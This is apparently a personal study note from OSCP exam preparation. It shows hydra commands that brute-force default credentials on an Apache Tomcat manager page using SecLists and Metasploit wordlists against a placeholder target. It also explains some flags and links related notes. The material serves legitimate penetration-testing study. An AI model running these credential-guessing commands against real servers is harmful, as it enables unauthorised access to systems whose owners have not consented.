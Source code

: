 # brute force default credentials tomcat
colon separated: /usr/share/seclists/Passwords/Default-Credentials/tomcat-betterdefaultpasslist.txt
-e nsr    try "n" null password, "s" login as pass and/or "r" reversed login
-s PORT   if the service is on a different default port, define it here
```bash
hydra -s 8080 -C /usr/share/seclists/Passwords/Default-Credentials/tomcat-betterdefaultpasslist.txt $IP http-get /manager/html
```

try more than just the default colon separated default creds from seclists.
```bash
hydra -L /usr/share/metasploit-framework/data/wordlists/tomcat_mgr_default_users.txt -P /usr/share/metasploit-framework/data/wordlists/tomcat_mgr_default_pass.txt http-get://$IP/manager/html
```

` zet/20221003150804/README.md `

# Related

- [20221014185851](/zet/20221014185851/README.md) kb file named kb/hacking/commands/hydra-default-credentials.md
- [20221009005402](/zet/20221009005402/README.md) preparing for the OSCP exam
- [20221003150803](/zet/20221003150803/README.md) brute force default credentials tomcat wfuzz
- [20221003150802](/zet/20221003150802/README.md) brute force default credentials tomcat metasploit
- ~/kb/hacking/commands/hydra-default-credentials.md
- [20221003150744](/zet/20221003150744/README.md) hydra brute force
- [20221017182053](/zet/20221017182053/README.md) hydra

Tags:

    #command #hacking #hydra 
